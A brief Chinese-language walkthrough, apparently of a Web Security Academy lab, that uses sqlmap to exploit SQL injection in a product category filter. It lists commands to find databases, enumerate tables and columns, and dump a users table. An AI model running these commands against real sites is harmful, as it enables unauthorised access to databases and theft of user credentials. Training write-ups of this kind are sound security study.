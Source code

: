 发现产品类型更改处存在sql注入，为了获取数据表的详细内容使用sqlmap





# 确定注入点：

```javascript
sqlmap  -u"https://ac7e1f8e1eb3fd41800b077d005800b3.web-security-academy.net/filter?category=Accessories" --dbs
```



# 爆表：

```javascript
 sqlmap  -u"https://ac7e1f8e1eb3fd41800b077d005800b3.web-security-academy.net/filter?category=Accessories" 
 --tables -D"public" --technique U
 
 --technique U 使用union联合注入
```



# 爆字段：

```javascript
 sqlmap  -u"https://ac7e1f8e1eb3fd41800b077d005800b3.web-security-academy.net/filter?category=Accessories" 
 --columns -T"users_ygohdx" -D"public" --technique U
```



# 爆字段内容：

```javascript
sqlmap  -u"https://ac7e1f8e1eb3fd41800b077d005800b3.web-security-academy.net/filter?category=Accessories" 
--dump -T"users_ygohdx" -D"public" --technique U –force-ssl

–force-ssl 强制为ssl链接
```


